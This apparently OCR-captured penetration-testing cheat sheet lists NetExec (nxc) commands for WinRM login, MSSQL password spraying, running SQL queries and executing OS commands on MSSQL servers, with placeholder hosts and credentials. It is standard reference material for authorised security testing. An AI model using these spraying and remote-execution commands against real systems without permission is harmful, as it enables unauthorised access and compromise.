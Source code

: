 ## nxc - winrm-auth
#plateform/linux #target/remote #port/5985 #port/5986 #protocol/winrm #cat/ATTACK/CONNECT  

```bash
nxc winrm <ip> -u <user> -p <password>
```

## nxc - mssql password spray
#plateform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/BRUTEFORCE-SPRAY  

```bash
nxc mssql <ip> -u <user.txt> -p <password.txt>  --no-bruteforce
```

## nxc - mssql execute query
#plateform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/EXPLOIT 

```bash
nxc mssql <ip> -u <user> -p '<password>' --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
```

## nxc - mssql execute command
#plateform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/EXPLOIT 

```bash
nxc mssql <ip> -u <user> -p '<password>' --local-auth -x <cmd|whoami>
```

